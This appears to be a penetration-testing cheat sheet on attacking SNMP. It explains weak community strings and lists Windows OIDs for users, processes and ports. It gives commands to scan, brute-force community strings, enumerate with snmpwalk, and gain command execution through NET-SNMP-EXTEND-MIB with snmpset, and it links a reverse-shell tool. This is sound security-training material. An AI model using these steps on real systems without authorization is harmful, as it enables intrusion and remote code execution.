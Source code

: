 ```yaml
---
description: >-
  Simple Network Management Protocol (SNMP) A widely used network monitoring and
  control protocol.
---
```


# SNMP

The SNMP  is based on UDP and stateless. moreover, the SNMP protocol version 1,2 and 2c has no traffic encryption which allows attackers to intercept sensitive information.

In addition, The old SNMP versions have weak authentication methods which are usually configured with the default public and private community strings.&#x20;

In order to rederive information about the target, network administrators often rely on Management Information Bases (MIBs), which define the structure of the data that can be queried via SNMP. \
The Object Identifier (OID) is a key component of MIBs, allowing for the precise identification of specific variables and objects within the network.&#x20;

Windows System Overview and Key Components OIDs:

<table><thead><tr><th width="336">OID</th><th>Dsecription</th></tr></thead><tbody><tr><td>1.3.6.1.2.1.25.1.6.0</td><td>System Processes</td></tr><tr><td>1.3.6.1.2.1.25.4.2.1.2</td><td>Running Programs</td></tr><tr><td>1.3.6.1.2.1.25.4.2.1.4</td><td>Processes Path</td></tr><tr><td>1.3.6.1.2.1.25.2.3.1.4</td><td>Storage Units</td></tr><tr><td>1.3.6.1.2.1.25.6.3.1.2</td><td>Software Name</td></tr><tr><td>1.3.6.1.4.1.77.1.2.25</td><td>User Accounts</td></tr><tr><td>1.3.6.1.2.1.6.13.1.3</td><td>TCP Local Ports</td></tr></tbody></table>

## Enumerate exposed SNMP service:

```bash
sudo nmap -sU -p 161,162,10161,10162 <target>
```

## Brute force the Community string <a href="#community-strings" id="community-strings"></a>

```bash
onesixtyone -c <wordlist> -i <targetlist>
```

Useful wordlist:

{% embed url="https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt" %}
community string wordlist
{% endembed %}

## Enumerating <a href="#enumerating-snmp" id="enumerating-snmp"></a>

Now, after we found that the SNMP's Community strings, its possible to enumerate senetivce information using `snmpwalk`:

```
snmpwalk -c <community_string> -v1 <target>
snmpwalk -c <community_string> -v1 <target> <OID>
```

`-v`: defines the `snmp` version.

`-c`: defines the community sting.

### SNMP Extended

Get Extended attributes

```bash
snmpwalk -v X -c public <IP> NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```

### SNMP RCE

Using private key with write permissions it is possible exploit the extended object table and run arbitrary commands on the target machine

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c <private_community_string> <target> \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```

The repo below leverage this to reverse shell using python script&#x20;

{% embed url="https://github.com/mxrch/snmp-shell" %}

## References

{% embed url="https://www.pcmag.com/encyclopedia/term/snmp" %}
